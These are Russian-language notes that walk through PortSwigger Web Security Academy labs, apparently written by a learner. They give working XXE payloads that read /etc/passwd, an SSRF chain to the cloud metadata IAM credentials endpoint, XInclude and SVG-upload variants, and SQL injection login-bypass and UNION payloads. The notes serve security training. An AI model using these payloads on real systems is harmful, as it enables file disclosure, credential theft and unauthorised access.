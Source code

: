 1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
1)зайти на сайт, 

2)выбрать продукт, 

3)нажать *Check stock*, 

4)перехватить Post запрос через BURP 

5) после объявления xml добавить

''' <!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> '''

6)заменить product id число на &res; 

7)после этого просто отправить запрос и в ответе придёт /etc/passwd

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf
те же действия, что и в предыдущей. до пункта 4) 
5)после объявления xml добавить:
'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>'
6)заменить product id на &res; отправить запрос, 
7)в ответе придет latest - добавить его к адресу и получим 
'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 'и так далее, 
n+1)в итоге получаем '<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>', что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack
те же действия, что и в 1. до пункта 4) 
5)в *product id* вставить '''<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> '''
6)в ответ придёт /etc/passwd

4.
1) 2) выбрать статью 
3)нажать отправить комментариq(заполнить все поля предварительно) 
4)перехватить запрос через Burp
5)в поле для картинки вставить: 
'''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>'''
svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)


1. https://portswigger.net/web-security/sql-injection/lab-login-bypass
1) в графе login ввести administrator'--
2.https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 
1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице
2)заменяем NULL по очереди на 'HmnfQ2' - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 
3)второй столбец оказался верным - выводится результат